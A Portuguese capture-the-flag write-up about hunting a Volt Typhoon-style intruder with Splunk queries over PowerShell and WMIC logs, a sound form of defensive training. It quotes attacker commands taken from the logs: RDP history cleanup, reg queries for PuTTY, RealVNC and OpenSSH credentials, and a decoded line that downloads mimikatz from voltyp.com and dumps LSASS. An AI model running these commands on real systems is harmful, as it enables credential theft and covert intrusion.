

A resposta da consulta mostra esses 3 eventos em horários diferentes mas com o comando em comum: `Remove-ItemProperty -Path $registryPath -Name MRU0 -ErrorAction SilentlyContinue`
O invasor em dias e horários diferentes veio limpando esses registros "MRU0(usado mais recentemente)", ele usou uma variável `$registryPath` que contém o caminho do registro, e quero ver qual foi o caminho passado para ela.

Consulta: `index="main" sourcetype="powershell" UserId="*dean-admin*" "*Remove-ItemProperty*"`



A resposta da consulta mostra alguns eventos, e um em específico conseguimos ver qual caminho foi passado para a variável. 
`$registryPath = "HKCU:\Software\Microsoft\Terminal Server Client\Default"` (Servidores e IPs que foram acessados via RDP a partir da máquina)

Portando, `Remove-ItemProperty` é de fato a resposta correta.

A segunda pergunta diz que o invasor APT continua cobrindo os rastros renomeando a extensão do arquivo criado anteriormente, e quer saber qual é o nome do arquivo+extensão criado por eles.
Para me ajudar a responder essa pergunta, vou consultar o MITRE ATT&CK. O MITRE ATT&CK é um framework de táticas, técnicas e procedimentos conhecidos, que engloba também essas informações atreladas a grupos conhecidos de hackers, crackers e APTs.
Dentro do MITRE ATT&CK, na seção do grupo Volt Typhoon, vou dar um CTRL+F e pesquisar pelo termo "extension" para achar alguma informação relevante.



Após pesquisar, vemos que o grupo faz cópia do banco de dados do AD (ntds.dit) e coloca a extensão .gif no arquivo.
Com essa informação em mãos, vou fazer uma nova busca no Splunk.

Consulta: `index="main" (sourcetype="powershell" OR sourcetype="wmic") (username="*dean-admin*" OR UserId="*dean-admin*") "*.gif*" | table _time host username command`

Explicação da consulta: Como eu não sabia aonde exatamente procurar pela extensão .gif, a solução que encontrei foi ser mais generalista. Então, usei duas origens diferentes de logs `powershell` e `wmic`, e usei o mesmo nome de usuário `dean-admin` (conta comprometida) em `username` e `UserId`, pois os logs do powershell e do wmic diferem o nome usuário no campo. A saída vai ser organizada em uma tabela para uma melhor vizualização com as colunas de data/hora, host(máquina), nome de usuário e comando.  



A saída da consulta mostra um evento que vem do invasor onde ele, usando o wmic, renomeia para `cl64.gif` a cópia do banco de dados do AD que foi movida para o servidor web e compactada nos passos anteriores.

Na última pergunta, é questionado em qual caminho de regedit o invasor verifica evidências de um ambiente virtualizado. Regedit é uma ferramenta oficial do Windows usada para visualizar, criar e modificar o banco de dados interno de configurações do computador. Ele guarda informações sobre os programas, preferências dos usuários, também armazena chaves de configuração que dizem ao sistema quais programas devem ser abertos assim que o computador inicializa. Os caminhos no Regedit começam com `HKEY`, então vou realizar uma consulta utilizando essa palavra-chave.

Consulta: `index="main" (sourcetype="powershell" OR sourcetype="wmic") (username="*dean-admin*" OR UserId="*dean-admin*") "*HKEY*" | eval User=coalesce(username, UserId) | eval Command=coalesce(CommandLine, command) | table _time host User Command`

Explicação da consulta: Procurando pela palavra-chave "HKEY" nos logs do powershell e wmic que venha do usuário dean-admin. Usei o eval + coalesce para reter o resultado presente em um dos campos e organizei em formato de tabela com os campos de data/hora, host (máquina), usuário e comando. 



O resultado da consulta mostra esses três eventos que contém a palavra-chave "HKEY", o evento mais antigo ocorreu no dia `26/03/2024` as `21:15:18` mas não está aparecendo o comando inteiro, então é preciso investigar o log bruto. Para isso, é necessário deixar apenas a primeira linha da consulta `index="main" (sourcetype="powershell" OR sourcetype="wmic") (username="*dean-admin*" OR UserId="*dean-admin*") "*HKEY*"`.



E como pode ser visto na imagem acima, o comando onde o invasor verifica evidências de um ambiente virtualizado é `Get-ItemProperty -Path "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control" | Select-Object -Property *Virtual*`.
Eu poderia ter documentado apenas o comando correto, mas eu quis mostrar que é necessário a criatividade. Nem tudo acontece como deveria e não sei se foi proposital da sala, mas é nessas horas que a capacidade de resolver problemas se torna um diferencial.

### 6. Credential Access



A tarefa 6 diz que o Volt Typhoon frequentemente vasculha rede de destino para descobrir e extrair credenciais de vários programas, e além disso, eles são conhecidos por acessar credenciais com hash diretamente da memória do sistema.
A primeira pergunta diz que o grupo usa consultas `reg` para encontrar credenciais úteis, e quer saber quais são os três softwares que eles estão investigando.
O comando `reg query` serve para consultar e ler informações diretamente do Registro do Windows através do Prompt de Comando (CMD) ou do PowerShell, sem a necessidade de abrir a interface gráfica do Editor do Registro (regedit). 

Consulta: `index="main" sourcetype="powershell" CommandLine="reg" UserId="*dean-admin*"` 

Explicação da consulta: Estou procurando nos logs do PowerShell alguma linha de comando que contenha a palavra "reg" e que venha do usuário `dean-admin`.



A resposta da consulta nos mostra alguns eventos `reg query` que possuem os nomes dos softwares que queremos, o primeiro sendo o `putty`

O segundo `realvnc`



E o terceiro `OpenSSH`.



A segunda pergunta quer saber o comando decodificado completo que o invasor usa para baixar e executar o programa mimikatz, usado para dumpar de credenciais da memória ram.
Para executar um comando codificado no terminal, certamente foi usado algum parâmetro como "-enc", "-E", "-encoded" ou algo do tipo. Então, para chegar até a resposta, vou fazer uma consulta com os parâmetros conhecidos que ele pode ter usado para encodar.

Consulta: `index="main" sourcetype="powershell" (UserId="*dean-admin*" OR UserId="*voltyp-admin*") ("-EncodedCommand" OR "-enc" OR "-encoded" OR "-e" OR "-E")`

Explicação da consulta: Estou procurando nos logs do PowerShell algum evento que venha do usuário `dean-admin` e que contenha alguma palavra como "-EncodedCommand", "-enc", "-encoded", "-e" ou "-E".



A resposta da consulta nos mostra um evento que contém a palavra "-E" e em seguida um comando codificado em Base64. Para descobrir o comando real, precisamos decodificar o Base64 em uma ferramenta de terminal ou online. Primeiro eu copio o código em Base64



E colo em um site online usado para codificar e decodificar Base64



A saída nos mostra o comando real usado pelo atacante para baixar e executar o mimikatz. 
`Invoke-WebRequest -Uri "http://voltyp.com/3/tlz/mimikatz.exe" -OutFile "C:\Temp\db2\mimikatz.exe"; Start-Process -FilePath "C:\Temp\db2\mimikatz.exe" -ArgumentList @("sekurlsa::minidump lsass.dmp", "exit") -NoNewWindow -Wait`

### 7. Discovery & Lateral Movement



A questão 7 diz que o grupo realiza a tática de descoberta (Discovery) usando técnicas de enumeração para coletar informações sobre arquitetura de rede, mecanismo de registro, logins bem-sucedidos e configurações de software. Além disso, realizam a tática de movimentação lateral (Lateral Movement) movendo shells criados anteriormente para servidores diferentes.
A primeira pergunta diz que o invasor utiliza o wevtutil (ferramenta de recuperação de logs) para enumerar logs do Windows, e quer saber quais IDs de eventos o invasor está procurando. 

Consulta: `index="main" sourcetype="powershell" UserId="*dean-admin*" "*wevtutil*" EventID=* | table _time host CommandLine EventID`

Explicação da consulta: Estamos procurando nos logs do powershell, algum evento que venha do usuário `dean-admin`, que tenha o `EventID` preenchido e que contenha a palavra "wevtutil" em algum lugar do log. O resultado é organizado em uma tabela contendo as colunas de data/hora, máquina, comando e o identificador do evento.



A saída da consulta mostra 11 eventos com identificadores de evento em comum. Para unificar os eventos com EventID iguais e ficar melhor para visualizar, irei fazer o seguinte:

Consulta: `index="main" sourcetype="powershell" UserId="*dean-admin*" "*wevtutil*" EventID=* | stats values(EventID) as Eventos_Registrados by UserId | table UserId Eventos_Registrados`

Explicando a consulta: O que mudou em relação a consulta anterior é que estou agrupando os `EventID`, removendo as duplicatas, renomeando o resultado para `Eventos_Registrados` e separando por usuário `UserId`. A saída será exibida em uma tabela com as colunas de usuário e eventos registrados.



O resultado da consulta mostra três eventos registrados: `4624`, `4625` e `4769`.
É importante lembrar que a pergunta quer o resultado em ordem crescente, então coloquei do menor para o maior.

A segunda pergunta diz que o invasor copia a shell da web original e se move lateralmente para o servidor-02, e ela quer saber qual é o nome do novo web shell que foi criado. 

Para obter mais detalhes sobre esse comportamento, vou consultar no MITRE ATT&CK algo relacionado a web shell.



Lá diz que o grupo usou webshells com nomes de `AuditReport.jspx` e `iisstart.aspx` em ambientes comprometidos. 

Com essa informação em mãos, farei o seguinte:

Consulta: `index="main" sourcetype="powershell" "*server-02*" "*AuditReport.jspx*"`

Explicação da consulta: Estou procurando nos logs no powershell algum evento que tenha as palavras "server-02" e "AuditReport.jspx".

